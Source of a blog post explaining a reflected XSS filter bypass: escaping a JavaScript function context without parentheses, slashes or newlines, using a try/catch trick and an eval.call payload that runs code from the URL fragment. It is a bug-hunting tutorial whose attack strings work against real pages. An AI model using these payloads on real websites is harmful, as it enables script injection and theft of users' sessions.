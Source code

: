 ```yaml
---
layout: post
title: "Breaking out of a function context without () and // for XSS"
---
```


Let's say you've found something that could lead to relfected xss. You can inject unescaped characters in a piece of javascript on a page, for example:


{% highlight html linenos %}
...
<script>
    $(function () {
        //...
        function foo() {
            someCode;
            var url = 'www.example.com/INJECTION_HERE';
            someMoreCode;
        }
        //...
    });
</script>
...
{% endhighlight %}

Also, you want your xss payload to fire without a need of `foo` function being called, but you cannot use `(`, `)`, `/`, `<`, `>` and new lines. This can actually happen if our entry point is a part of url's path like `https://www.example.com/foo/OUR_INPUT_HERE/bar/`. In such conditions, we cannot get out of `<script>` and jquery's `$(...)`. So what do we do?

## Getting out of foo ...

First, let's get out of `foo` function. This one is pretty simple and obvious. All we have to do is to inject:

{% highlight text %}
'} alert`1` - '
{% endhighlight %}

but then we get:
{% highlight javascript linenos %}
...
    $(function () {
        //...
        function foo() {
            someCode;
            var url = 'www.example.com/'} alert`1` - '';
            someMoreCode;
        } // <-- this bracket spoils everything :(
        //...
    });
...
{% endhighlight %}

Closing bracket on line 8 breaks the code inside `$(function () {...})` and therefore our `alert` is not being executed. We need to do it a little bit smarter.

## ... without braking everything else

So, we need to put something after our `alert` to make the closing bracket fit. Maybe let's add `function bar() {`?
<br>
<div style="text-align: center; opacity: .8"> but we cannot use ()'s.</div>
<br>
So maybe we can just open `{` to get an [object literal](https://www.dyn-web.com/tutorials/object-literal/)?
<br>
<br>
<div style="text-align: center; opacity: .8">Inside an object literal only key:value pairs are allowed and we have bunch of code in the following lines</div>
<br>
<br>
Ok. So what kind of javascript creature has an opening `{`, no `()`'s and code inside?
<br>
<br>
<div style="text-align: center; opacity: .8">
The try...catch statement!
</div>
<br>
<br>
Great! When we use something like:

{% highlight text %}
'} alert`1`; try {} catch {'
{% endhighlight %}

we end up with:

{% highlight javascript linenos %}
...
    $(function () {
        //...
        function foo() {
            someCode;
            var url = 'www.example.com/'} alert`1`; try {} catch {'';
            someMoreCode;
        }
        //...
    });
...
{% endhighlight %}

which is valid javascript code and therefore our `alert` fires!

## But how do we execute anything more meaningful than an alert?

As I've mentioned, we are not allowed to use `()` which makes creating payloads a bit tricky. To get around this, we can use the following trick. First, we inject this in our entry point:

{% highlight javascript %}
eval.call`${document.location.hash.substr`1`}`
{% endhighlight %}

and then we put our payload in url's [fragment identifier](https://en.wikipedia.org/wiki/Fragment_identifier) where all characters are allowed.

For example:

{% highlight text %}
https://www.example.com/foo/eval.call`${document.location.hash.substr`1`}`/bar/#yourPayloadHere()
{% endhighlight %}

Of course, we need to url encode `eval.call...` to make it work.


<br>
<br>
Happy hunting!
